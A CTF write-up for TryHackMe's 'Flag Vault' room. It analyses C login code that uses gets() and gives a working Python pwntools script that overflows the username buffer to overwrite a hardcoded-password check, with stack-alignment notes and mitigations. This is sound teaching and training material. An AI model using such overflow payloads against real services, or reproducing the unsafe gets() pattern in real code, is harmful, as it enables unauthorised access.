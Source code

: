 # TryHackMe - Flag Vault (CTF Write-up)

> Author: Adam Pawelczyk
>
> Date: 2025-07-06
>
> Category: Binary Exploitation / Reverse Engineering
>
> Difficulty: Easy
>
> [TryHackMe Link](https://tryhackme.com/room/hfb1flagvault)

---

## Challenge Description

> Cipher asked me to create the most secure vault for flags, so I created a vault that cannot be accessed. You don't believe me? Well, here is the code with the password hardcoded. Not that you can do much with it anymore.

The challenge provides the source code for a C-based login system. According to the challenge description, the password is hardcoded, but the input for it is commented out.


## Goal

Bypass the login mechanism and retrieve the flag.


## TL;DR

- The provided C source code was analyzed to understand the authentication logic.
- The password input was found to be disabled, while the hardcoded password check remained active.
- A buffer overflow vulnerability was identified due to the use of the unsafe `gets()` function.
- An exploit was created using Python and `pwntools` to overwrite the `password` buffer.
- The exploit successfully bypassed authentication and retrieved the flag.


## Source Code Analysis

The challenge provides the C source code, Below is a breakdown of the most critical part:

```c
char password[100] = "";
char username[100] = "";

printf("Username: ");
gets(username);

// If I disable the password, nobody will get in.
//printf("Password: ");
//gets(password);

if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
    print_flag();
}
else{
    printf("Wrong password! No flag for you.");
}
```

### Key Observations:

- Password input is disabled, and the `password` buffer remains an empty string.
- Insecure function `gets()` is used, which does not check bounds and allows buffer overflows.
- If both username and password match the hardcoded values, the flag is printed.
- Because the `username` buffer is user-controlled and located before `password` in memory, it is possible to overflow into `password` with sufficiently long input.


## Exploitation Strategy

The objective is to overwrite the empty `password` buffer with `5up3rP4zz123Byte` string by overflowing the `username` buffer. The correct padding between `username` and `password` is determined through brute-forcing.

## Exploit Code

```python
from pwn import *

context.log_level = 'warning'

for padding in range(89, 110):
    conn = remote('10.10.147.75', 1337)
    payload = b'bytereaper\x00' + b'0' * padding + b'5up3rP4zz123Byte'

    conn.recvuntil(b'Username:')
    conn.sendline(payload)

    response = conn.recvall().decode().lstrip()

    if response != 'Wrong password! No flag for you.':
        print(f'padding: {padding}')
        print(f'flag: {response}')
```

This script:
- Connects to the server.
- Sends a crafted payload to overflow `username` and overwrite `password`.
- Brute-forces the correct padding.
- Prints the flag on a successful authentication.

## Exploitation Output

Upon executing the exploit code, the flag is retrieved:

![flag](images/flag.png)


### Why is the Padding 101 Bytes?

After placing the 10-character username and its null terminator (11 bytes total), it would seem that the remaining 89 bytes of the 100-byte `username` buffer should end exactly at the boundary.

However, stack variables are aligned in memory, and a **12-byte padding** is inserted between the `username` and `password` buffers. This alignment, enforced by the **System V AMD64 ABI** followed by modern compilers like GCC, ensures 16-byte stack alignment for performance and compatibility.

To overwrite `password` starting from `username`, the required layout is:

- 11 bytes - username + null terminator.
- 101 bytes - padding (89 remaining in `username` + 12-byte alignment gap).

Total: **112 bytes**, which matches the observed working exploit.

## Conclusion

The challenge showcased a classic example of insecure coding practices in C using `gets()` without bounds checking and leaving critical logic in place even when input is removed.

## Skills Practiced

- Manual code review and vulnerability analysis.
- Understanding stack layout and memory buffer overflows.
- Writing custom exploits using `pwntools`.

## Mitigations

- Never use `gets()` - it's unsafe. Use `fgets()` or other bounded alternatives.
- Never store passwords in plaintext or hardcode them into binaries.
- Always validate input length and use secure memory handling practices.

## Final Thoughts

Although the password prompt was disabled, the actual authentication logic remained, making the system vulnerable to a buffer overflow exploit. This challenge was a fun and simple exercise in binary exploitation and reverse engineering fundamentals.

**Note:** The flag value has been redacted in accordance with TryHackMe's write-up policy.